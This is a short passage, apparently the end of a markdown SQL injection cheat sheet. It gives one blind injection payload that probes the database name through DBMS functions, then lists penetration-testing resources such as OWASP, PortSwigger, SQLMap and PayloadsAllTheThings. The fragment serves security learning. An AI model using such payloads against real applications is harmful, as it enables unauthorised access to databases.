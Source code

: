 - **Exploiting DBMS Functions:** Use DBMS-specific functions to bypass filters.

```
' AND LENGTH((SELECT database()))>0 --
```

# Resources

|**Website**|**URL**|
|-|-|
|OWASP SQL Injection|https://owasp.org/www-community/attacks/SQL_Injection|
|PortSwigger Web Security Academy|https://portswigger.net/web-security/sql-injection|
|SQLMap Tool|https://sqlmap.org/|
|PayloadAllTheThings (SQL Injection)|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection|
|HackTricks SQL Injection Guide|https://book.hacktricks.xyz/pentesting-web/sql-injection|
|Exploit Database SQL Injection Exploits|https://www.exploit-db.com/|
|FuzzDB (SQL Injection Payloads)|https://github.com/fuzzdb-project/fuzzdb|
